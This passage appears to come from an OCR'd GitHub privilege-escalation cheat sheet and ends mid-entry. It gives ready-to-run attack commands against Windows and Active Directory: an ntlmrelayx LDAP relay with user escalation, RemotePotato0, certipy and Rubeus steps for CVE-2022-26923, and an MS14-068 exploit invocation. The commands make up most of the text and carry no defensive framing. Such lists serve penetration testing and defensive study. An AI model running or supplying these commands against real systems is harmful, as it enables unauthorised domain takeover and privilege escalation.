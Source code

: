 Methods:

1\.

sudo ntlmrelayx.py -t ldap://10.0.0.10 \--no-wcf-server \--escalate-user
normal_user

2\.

.\\RemotePotato0.exe -m 0 -r 10.0.0.20 -x 10.0.0.20 -p 9999 -s 1

<a name="cve-2022-26923"></a>
# CVE-2022-26923

Domain: Y/N

Local Admin: Yes

OS: Windows

Type: 0/1 Exploit

Methods:

1\.

certipy req \'lab.local/cve\$:CVEPassword1234\*\@10.100.10.13\'
-template Machine -dc-ip 10.10.10.10 -ca lab-ADCS-CA

2\.

Rubeus.exe asktgt /user:\"TARGET_SAMNAME\" /certificate:cert.pfx
/password:\"CERTIFICATE_PASSWORD\" /domain:\"FQDN_DOMAIN\"
/dc:\"DOMAIN_CONTROLLER\" /show

<a name="ms14-068"></a>
# MS14-068

Domain: Y/N

Local Admin: Yes

OS: Windows

Type: 0/1 Exploit

Methods:

1\.

python ms14-068.py -u user-a-1\@dom-a.loc -s
S-1-5-21-557603841-771695929-1514560438-1103 -d dc-a-2003.dom-a.loc

<a name="sudo-ld_preload"></a>
# Sudo LD_PRELOAD

Domain: No
